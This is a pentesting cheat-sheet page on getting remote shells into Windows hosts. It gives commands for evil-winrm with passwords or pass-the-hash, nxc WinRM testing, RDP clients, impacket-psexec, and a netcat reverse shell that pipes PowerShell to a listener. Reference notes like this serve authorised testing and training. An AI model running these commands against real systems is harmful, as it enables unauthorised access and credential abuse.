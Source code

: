 # 🐚 Shells

## Evil-WinRM

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

### Test with cme

```bash
nxc winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```

### Port : 5985

```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

## RDP

### freerdp

```bash
freerdp /u:$user /p:$password /v:$ip
```

### remmina

```bash
remmina -c rdp://$user@$ip
```

## `Impacket-psexec`

PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

## `netcat`

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
